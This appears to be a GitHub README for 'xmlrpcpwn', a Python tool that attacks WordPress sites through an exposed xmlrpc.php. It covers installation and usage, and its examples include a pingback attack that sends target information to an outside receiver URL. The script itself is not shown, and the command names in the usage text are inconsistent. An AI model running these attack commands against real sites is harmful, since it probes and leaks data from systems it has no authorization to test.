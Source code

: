 ![xmlrpcpwn_thumbnail](/assets/stable_diffusion_door.jpg)

`xmlrcppwn` is a lightweight python script with zero dependencies that can try multiple attacks against a Wordpress when the **xmlrpc.php** is open to interact with. It is important to emphasize that just because it is open for interaction does not mean that it is vulnerable.

# Installation

Once you run this command you will have available the library as a global script with the alias `xmlrpcpwn`

```bash
python setup.py install
```

# Usage

```bash
usage: xmlrpcpwn.py [-h] [-d DOMAIN] [-p PINGBACK] [-v]

Interact with xmlrpc.php file on wordpress site
EXAMPLES:
        xmlrpc-pwn -d example.com
        xmlprc-pwn --domain example.com --pingback https://receiver.com:8080
        xmlrc-pwn -d example.es --check-only

options:
  -h,          --help            Show this help message and exit
  -d DOMAIN,   --domain          The target domain you want to interact
  -p PINGBACK, --pingback        Use a pingback attack to retrieve information from the target to your receiver
  -c,          --check-only      Just run a simple check to confirm it is open
  -v,          --version         Show program's version number and exit

Wordpress is leak, insecure and ugly
```

# Examples

## Do a simple check to confirm it is open

```bash
xmlrpcpwn -d example.com --check-only
```

## Execute a pingback attack to retrieve target information

```bash
xmlrpcpwn -d example.com --pingback https://www.toptal.com/developers/postbin/b/1682676864221-3461969071067
```
